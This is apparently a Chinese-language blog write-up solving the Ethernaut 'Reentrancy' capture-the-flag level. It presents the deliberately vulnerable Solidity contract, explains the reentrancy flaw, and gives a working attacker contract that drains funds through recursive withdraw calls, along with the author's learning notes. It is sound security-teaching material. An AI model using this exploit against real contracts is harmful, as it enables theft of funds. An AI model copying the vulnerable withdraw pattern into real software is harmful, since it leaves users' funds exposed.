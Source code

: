 # 10-Reentrancy

# 问题描述

The goal of this level is for you to steal all the funds from the contract.

Things that might help:

- Untrusted contracts can execute code where you least expect it.
- Fallback methods
- Throw/revert bubbling
- Sometimes the best way to attack a contract is with another contract.
- See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

# 代码分析

很明显的Re-entrancy漏洞，起码看到这些个特征之后，第一反应就是Re-entrancy

1. 有`withdraw`函数，也就是`push-over-pull`了
2. `withdraw`函数没有follow CEI，在执行完转发eth的代码之后，最后才进行balance的更新

# 攻击思路

1. 写一个AttackReentrance合约
2. 用攻击合约去call `withdraw`函数，函数在执行完`(bool result,) = msg.sender.call{value: _amount}("");` ，由于攻击函数通过call收到了eth，因此会调用攻击函数的`receive`函数或者`fallback`函数（如果没有`receive`函数），这些函数式我们可以自定义的
3. 我们可以在这些函数中自定义去调用reentrance合约的`withdraw`，这样就产生了一个循环，由于balance是在最后才更新的（也就是循环之外），所以`balances[msg.sender] >= _amount`一定是一直成立的，直到钱被提光，无法再继续提取，返回错误，循环才会终止

## 攻击代码

建议复习一下最下面小白的一些思考和小白的一些思考2

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}

contract AttackReentrance {
    IReentrance victim;

    constructor(address _victim) {
        victim = IReentrance(_victim);
    }

    function attack() external payable {
        victim.donate{value: msg.value}(address(this));
        victim.withdraw(msg.value);
    }

    receive() external payable {
        if (address(victim).balance >= 0.001 ether) {
            victim.withdraw(0.001 ether);
        }
    }
}
```

# 小白的一些思考

刚开始自己先写了一个代码，然后问了chatgpt，给我提了一些意见

这些意见其实非常宝贵，因为基本上能看了，但是码代码的能力还是弱了一些

```solidity
contract AttackReentrance {
    Reentrance victim;

    constructor(address _victim) {
        victim = _victim;
        victim.donate(){value: 1 ether};
        victim.withdraw(1 ether);
    }

    receive() public payable{
        victim.withdraw(1 ether);
    }
}
```

1. **构造函数中的donate调用：**
    1. 在构造函数中，你调用了victim.donate(){value: 1 ether};，但由于缺少payable关键字，这个调用会失败。应该在调用时指定payable关键字以确保可以发送ETH。
    2. **构造函数**：将payable关键字加到构造函数中，这样在部署时可以发送1 ETH。
2. **构造函数中直接调用withdraw：**
    1. 合约一部署时会立即调用withdraw，这可能会在ETH实际转移到合约之前执行，导致调用失败。通常，建议先分开执行donate和withdraw来确保部署后有足够时间完成交易。
3. **receive函数**：在receive函数中，增加了一个检查，确保合约的余额大于0才继续调用withdraw，避免死循环。

两个函数一对比，记住自己的不足，然后好好学习开发

# 小白的思考2（划重点）

在按照学来的思路进行攻击的时候遇到两个问题

- 原来合约代码的solidity版本比较低，编译有问题
    - 题目里面是`0.6.12`，比较古早
- 代码里面应用的safemath中的openzeppelin contract带有06，编译器不是很认识
    - `import "openzeppelin-contracts-06/math/SafeMath.sol";`

要解决上面两个问题也不是不可以，但是比较麻烦，且没有必要，学了一招，直接写interface即可。也就是说调用函数的sig能够对上就好了。

```solidity
interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint256 _amount) external;
}
```

# 小白学到的东西3

攻击的时候，尽量在攻击代码里面使用msg.value，而不是一个magic number固定的值，不然要有可能会导致gas不够，交易失败